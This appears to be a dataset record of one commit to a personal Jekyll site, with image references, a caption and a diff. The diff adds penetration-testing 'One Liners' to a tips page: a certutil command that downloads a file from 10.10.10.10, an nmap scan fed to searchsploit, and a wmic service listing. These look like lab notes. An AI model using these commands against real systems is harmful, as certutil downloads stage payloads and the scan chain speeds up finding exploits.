

Before and after one commit to Mushi-mushi/mushi-mushi.github.io, a Jekyll site: the page built from tips/index.markdown, in a window 1280 px wide and 900 px high. Shown: the whole window, without its empty margins (102-971 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Update index.markdown

```diff
--- a/tips/index.markdown
+++ b/tips/index.markdown
@@ -3,7 +3,20 @@ layout: default
 title: Tips and Tricks
 ---
 
-
+One Liners
+==========
+Dowloading file via certutil
+{% highlight bash%}
+cmd.exe /C certutil  -split -urlcache -f http://10.10.10.10/exe.LOL c:\Users\Admin\Desktop\exe.lol
+{% endhighlight %}
+Nmap scan ran through searchsploit
+{% highlight bash%}
+nmap -p- -sV -oX new.xml 10.10.10.10; searchsploit --nmap new.xml
+{% endhighlight %}
+List al started services
+{% highlight bash%}
+cmd.exe /c wmic service where started=true get name, startname
+{% endhighlight %}
 Tmux shortcut
 =============
 {% highlight bash%}
```
